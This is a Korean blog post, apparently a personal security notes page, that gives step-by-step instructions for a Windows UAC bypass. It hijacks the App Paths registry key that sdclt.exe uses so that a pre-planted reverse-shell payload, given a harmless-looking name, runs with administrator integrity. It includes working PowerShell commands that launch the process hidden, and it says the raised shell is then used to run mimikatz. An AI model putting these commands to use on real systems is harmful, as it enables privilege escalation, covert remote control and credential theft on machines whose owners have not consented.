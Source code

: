 ```yaml
---
layout: post
title: UAC bypass로 관리자 권한 쉘 열기
subtitle: UAC Bypass를 이용한 쉘 권한 높이기 
category: knowledge
thumbnail-img: /assets/img/knowledge/high.png
tags: [reverseshell, UACbypass, windows, sdclt.exe]
author: Hong
---
```

# 전제조건
윈도우에서 관리자 권한을 가진 유저의 쉘을 취득했을 경우.

GUI가 아니기 때문에 관리자 권한으로 쉘을 열 수 없는 경우. GUI의 경우 페이로드를 cmd.exe로 하면 간단하게 실행 된다.

관리자의 비밀번호를 모르는 경우.

현재 권한을 보면 **관리자 그룹에 들어있지만** 현재 터미널은 Medium Mandatory Level인 것을 알 수 있다.
![medium](/assets/img/knowledge/medium.png)
# sdclt.exe를 악용
sdclt.exe 파일은 윈도우 시스템에서 백업 및 복원을 담당하는 실행 파일이다.

이 실행 파일은 관리자 권한으로 실행되기 때문에 레지스트리의 값을 오염시켜서 원하는 파일을 실행시키는 것이 가능하다.

이번에는 미리 심어둔 리버스쉘 페이로드인 Monitoring Stat Updater1.exe 파일을 실행하도록 한다.

먼저 취득한 쉘에서 powershell 쉘을 사용한다.

다음 아래의 명령어들을 입력한다.

```powershell
[String]$program="C:\Users\Public\monitoring\Monitoring Stat Updater1.exe"
New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value $program -Force

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden # 이 명령어로 실행
```
HKCU 하위의 폴더에 새로운 레지스트리를 만든 후, 지정한 프로그램을 키 값으로 설정한다.

그리고 Start-Process로 sdclt.exe를 실행시키면 관리자 권한의 쉘이 얻어진다. 

이번에는 리버스쉘의 페이로드를 이용했기 때문에 관리자 권한 쉘을 얻었지만, 프로그램을 cmd.exe로 설정하면 터미널이 관리자 권한으로 열린다.

**GUI에서는 cmd 창이 새로 열리기 때문에 문제없지만**, 원격으로 CLI을 베이스로 통신하고 있기 때문에 리버스쉘의 페이로드를 사용했다.
# GUI의 경우
GUI의 경우에는 관리자 권한으로 실행을 클릭하면 관리자의 비밀번호를 입력하라는 팝업창이 뜨게 된다.

리버스쉘로 쉘은 얻었지만 **관리자의 비밀번호를 모르는 상황**이기 때문에 관리자 권한의 터미널을 사용할 수가 없다.

이때 UAC 바이패스의 페이로드를 cmd.exe로 설정하면 비밀번호를 묻는 팝업 없이 바로 관리자 권한의 터미널이 새로운 창으로 열리게 된다.
# 실행 결과
리버스쉘을 받기위한 포트를 리스닝 상태로 두고 위의 순서대로 UAC bypass를 실행하면 새로운 리버스쉘이 열리게 된다.
![high](/assets/img/knowledge/high.png)
권한을 확인하면 아까와는 다르게 High Mandatory Level이 되어있는 것을 알 수 있다.

그렇기 때문에 이제 mimikatz의 실행이 가능해진다.